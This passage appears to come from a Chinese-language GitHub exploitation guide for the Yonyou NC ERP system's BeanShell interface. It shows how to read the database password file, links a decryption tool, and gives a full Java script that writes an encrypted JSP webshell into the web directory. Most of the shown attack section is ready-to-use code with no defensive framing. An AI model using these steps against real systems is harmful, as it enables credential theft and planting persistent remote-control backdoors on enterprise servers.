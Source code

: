 ## 2.3 读取数据库密码
nc的数据库密码位置在 `/ierp/bin/prop.xml`
```bash
cat("/ierp/bin/prop.xml");
```
<div align=center><img width="747" alt="image" src="https://user-images.githubusercontent.com/84888757/223073185-41f27e33-7ff9-4c1b-93ef-e29a9620edb6.png" /></div>


- 用友nc解密工具：https://github.com/1amfine2333/ncDecode

<div align=center><img width="747" alt="image" src="https://user-images.githubusercontent.com/84888757/223073279-8459749a-f5cb-494d-b9c7-42f23a803e9a.png" /></div>



## 2.4 写文件
`beanshell` 完全符合Java语法规范，所以可以通过写一个java脚本来写入文件。

先用 `dir` 命令来探明 web文件夹的位置，然后构造java脚本（或者直接获取绝对路径、相对路径）。

### windows写入webshell
```java
import java.io.*;String filePath = "./webapps/nc_web/1.jsp"; String conent ="<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals(\"POST\")){String k=\"e45e329feb5d925b\";session.putValue(\"u\",k);Cipher c=Cipher.getInstance(\"AES\");c.init(2,new SecretKeySpec(k.getBytes(),\"AES\"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>";BufferedWriter out = null;try {File file = new File(filePath);File fileParent = file.getParentFile();if (!fileParent.exists()) {fileParent.mkdirs();}file.createNewFile();out = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(file, true)));out.write(conent);}catch(Exception e) {e.printStackTrace();} finally {try {out.close();} catch (IOException e) {e.printStackTrace();}}
```

<div align=center><img width="647" alt="image" src="https://user-images.githubusercontent.com/84888757/223074382-9cc38b65-8dae-481d-9e01-84125b2dc4da.png" /></div>


<div align=center><img width="683" alt="image" src="https://user-images.githubusercontent.com/84888757/223074706-1c42bc3f-e261-495a-916d-6f917ffb0e6a.png" /></div>





